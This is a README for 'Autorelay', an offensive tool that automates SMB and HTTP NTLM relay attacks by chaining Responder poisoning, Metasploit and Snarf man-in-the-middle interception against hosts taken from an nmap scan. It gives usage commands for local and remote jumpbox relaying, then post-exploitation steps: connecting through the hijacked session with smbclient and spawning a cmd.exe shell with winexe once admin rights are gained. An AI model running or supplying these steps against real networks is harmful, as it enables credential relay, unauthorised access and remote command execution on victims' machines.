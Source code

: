 # Autorelay

Automatically performs the SMB relay attack either locally or on a remote device. Uses Responder to poison, Metasploit for HTTP NTLM relay (rather than just SMB relay), and Snarf for the MITM'ing. When using locally, only requires an interface and an nmap XML file of the target network to determine SMB hosts. When used for SMB relaying on a jumpbox, requires the IP address of the jumpbox.


## Usage

#####Local

* python autoresp.py -x local-network.xml -i eth0

#####Remote

* python autoresp.py -x remote-network.xml -i eth0 -r 95.34.53.243 

---


Point your local browser to http://localhost:4001 and refresh it periodically to see your MITM'd connections


After a connection is expired (or you expire it), click "choose"


Run this command locally if relaying locally or run it on the jumpbox if you're relaying remotely: smbclient -U a%a //127.0.0.1


Alternatively, if you gain admin rights through the SMB connection spawn a shell with: winexe -U a%a //127.0.0.1 -U cmd.exe

